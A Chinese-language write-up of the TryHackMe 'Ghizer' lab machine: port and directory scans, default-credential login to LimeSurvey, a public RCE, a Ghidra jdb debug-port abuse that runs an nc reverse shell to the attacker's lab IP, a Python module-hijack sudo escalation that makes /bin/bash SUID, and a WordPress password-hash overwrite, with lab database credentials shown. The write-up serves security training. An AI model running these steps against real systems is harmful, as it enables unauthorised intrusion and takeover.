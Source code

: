 ```yaml
---
sidebar_position: 133
tags: [Easy, Linux, 命令注入, 文件上传, SUDO]
title: "Ghizer"
description: "Ghizer"
sidebar_label: "Ghizer"
slug: /tryhackme/133
---
```


# Ghizer

## 端口扫描

```bash
root@ip-10-10-139-140:~/ghizerctf# nmap -sTCV -p- --min-rate 1000 10.10.93.114

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-03 07:51 BST
Nmap scan report for ip-10-10-93-114.eu-west-1.compute.internal (10.10.93.114)
Host is up (0.00036s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE     VERSION
21/tcp    open  ftp?
| fingerprint-strings: 
|   DNSStatusRequest, DNSVersionBindReq, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, X11Probe: 
|     220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
|     Please login with USER and PASS.
|   Kerberos, NULL, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq: 
|_    220 Welcome to Anonymous FTP server (vsFTPd 3.0.3)
80/tcp    open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: LimeSurvey http://www.limesurvey.org
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title:         LimeSurvey    
443/tcp   open  ssl/http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 5.4.2
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Ghizer &#8211; Just another WordPress site
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-07-23T17:27:31
|_Not valid after:  2030-07-21T17:27:31
|_ssl-date: TLS randomness does not represent time
18002/tcp open  java-rmi    Java RMI Registry
| rmi-dumpregistry: 
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
|     @127.0.1.1:38429
|     extends
|       java.rmi.server.RemoteStub
|       extends
|_        java.rmi.server.RemoteObject
38429/tcp open  rmiregistry Java RMI
41119/tcp open  tcpwrapped
```

## 80

```bash
root@ip-10-10-139-140:~/ghizerctf# gobuster dir -u http://10.10.93.114/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.93.114/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/10/03 07:54:50 Starting gobuster
===============================================================
/docs (Status: 301)
/themes (Status: 301)
/index.php (Status: 200)
/admin (Status: 301)
/assets (Status: 301)
/upload (Status: 301)
/tests (Status: 301)
/plugins (Status: 301)
/application (Status: 301)
/tmp (Status: 301)
/framework (Status: 301)
/locale (Status: 301)
/installer (Status: 301)
/third_party (Status: 301)
/server-status (Status: 403)
===============================================================
2023/10/03 07:56:54 Finished
===============================================================
```

访问后我发现其是一个 LimeSurvey 程序, 简单搜索我发现了其默认登陆密码 admin:password  发现可以登陆

![image-20240709153157989](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-153159.png)

在其下泄露了其版本所在, 所以直接寻找漏洞发现一个 RCE 漏洞 [LimeSurvey < 3.16 - Remote Code Execution](https://www.exploit-db.com/exploits/46634)

![image-20240709153208827](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-153210.png)

## 后渗透

### www-data

利用上面得到的 Shell 转换为 reverse

![image-20240709153221682](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-153223.png)

### www-data —> veronica

在用户 veronica 的家目录我发现了一个特殊的程序

![image-20240709153233409](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-153234.png)

同时查看进程我发现了这个程序其实一直在运行

![image-20240709153239172](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-153240.png)

接着我经过搜索发现其存在命令执行漏洞 [Ghidra v9.0 Remote Code Execution | PoC | Windows 10 1809](https://thewhiteh4t.github.io/2019/03/16/Ghidra-v9.0-Remote-Code-Execution-PoC-Windows-10-1809.html)

接着我便利用此来进行攻击

```bash
(remote) www-data@ubuntu:/home/veronica$ jdb -attach 127.0.0.1:18001
Set uncaught java.lang.Throwable
Set deferred uncaught java.lang.Throwable
Initializing jdb ...
> classes
....
> stop in org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
Set breakpoint org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run()
> 
Breakpoint hit: "thread=Log4j2-TF-4-Scheduled-1", org.apache.logging.log4j.core.util.WatchManager$WatchRunnable.run(), line=96 bci=0
Log4j2-TF-4-Scheduled-1[1] print new java.lang.Runtime().exec("nc 10.10.139.140 4445 -e /bin/bash")
 new java.lang.Runtime().exec("nc 10.10.139.140 4445 -e /bin/bash") = "Process[pid=20383, exitValue="not exited"]"
Log4j2-TF-4-Scheduled-1[1]
```

![image-20240709153248088](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-153249.png)

### veronica —> root

我发现 veronica 用户存在 SUDO 特权可以执行一个 Python 程序, 经过观察我发现可以利用其进行 Python 的 PATH 提权

```bash
(remote) veronica@ubuntu:/home/veronica$ sudo -l
Matching Defaults entries for veronica on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User veronica may run the following commands on ubuntu:
    (ALL : ALL) ALL
    (root : root) NOPASSWD: /usr/bin/python3.5 /home/veronica/base.py
(remote) veronica@ubuntu:/home/veronica$ cat base.py 
import base64

hijackme = base64.b64encode(b'tryhackme is the best')
print(hijackme)

(remote) veronica@ubuntu:/home/veronica$ ls -al base.py 
-rw-r--r-- 1 root root 86 Jul 23  2020 base.py
(remote) veronica@ubuntu:/home/veronica$  python3 -c 'import sys; print (sys.path)'
['', '/usr/lib/python35.zip', '/usr/lib/python3.5', '/usr/lib/python3.5/plat-x86_64-linux-gnu', '/usr/lib/python3.5/lib-dynload', '/usr/local/lib/python3.5/dist-packages', '/usr/lib/python3/dist-packages']
(remote) veronica@ubuntu:/home/veronica$ cat << EOF > base64.py
> import os
> os.system("chmod u+s /bin/bash")
> EOF
(remote) veronica@ubuntu:/home/veronica$ sudo /usr/bin/python3.5 /home/veronica/base.py
......
AttributeError: module 'base64' has no attribute 'b64encode'
(remote) veronica@ubuntu:/home/veronica$ ls -al /bin/bash
-rwsr-xr-x 1 root root 1037528 Jul 12  2019 /bin/bash
```

## 扩展

### 443

访问 443 端口我发现其是一个 Wordpress 站点, 但是在我访问 wp-admin 网页显示使用一个 WPS Hide Login 插件

![image-20240709153302251](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-153303.png)

接着我进行了枚举, 发现一个 devtools , 利用此就可以访问我们的登陆页面

![image-20240709153308895](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240709-153310.png)

利用我们之前在 80 端口获取的 Shell 我查看了配置文件, 获取到了数据库的连接因此我选择在此修改 Wordpress 的用户密码 [Wordpress Password Hash Generator to reset your Wordpress Password.](https://codebeautify.org/wordpress-password-hash-generator)

```bash
mysql> SELECT * FROM wp_users;
+----+------------+------------------------------------+---------------+----------------+------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email     | user_url               | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+----------------+------------------------+---------------------+---------------------+-------------+--------------+
|  1 | Anny       | $P$BJImLXNua3oNCoX7gSXEvWkHxuz.K9. | anny          | ghizer@thm.com | https://192.168.85.128 | 2020-07-23 22:46:47 |                     |           0 | Anny         |
+----+------------+------------------------------------+---------------+----------------+------------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.01 sec)

mysql> UPDATE wp_users SET User_pass="$P$BjBHlMMkLdc7t58EFTLztqvn1b1IrO." WHERE user_login="Anny"
    -> ;
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> SELECT * FROM wp_users;
+----+------------+------------------------------------+---------------+----------------+------------------------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email     | user_url               | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+----------------+------------------------+---------------------+---------------------+-------------+--------------+
|  1 | Anny       | $P$BjBHlMMkLdc7t58EFTLztqvn1b1IrO. | anny          | ghizer@thm.com | https://192.168.85.128 | 2020-07-23 22:46:47 |                     |           0 | Anny         |
+----+------------+------------------------------------+---------------+----------------+------------------------+---------------------+---------------------+-------------+--------------+
1 row in set (0.00 sec)
```

在此我们登陆之后可以通过上传插件来获取一个 Shell, 但是获取的还是 www-data 用户的 Shell

其实我们可以在limesurvey 的配置文件中发现用户 Anny 的明文密码

```bash
(remote) root@ubuntu:/var/www/html/limesurvey/application/config# cat config.php 
<?php if (!defined('BASEPATH')) exit('No direct script access allowed');
.....
return array(
	'components' => array(
		'db' => array(
			'connectionString' => 'mysql:host=localhost;port=3306;dbname=limedb;',
			'emulatePrepare' => true,
			'username' => 'Anny',
			'password' => 'P4$W0RD!!#S3CUr3!',
			'charset' => 'utf8mb4',
			'tablePrefix' => 'lime_',
```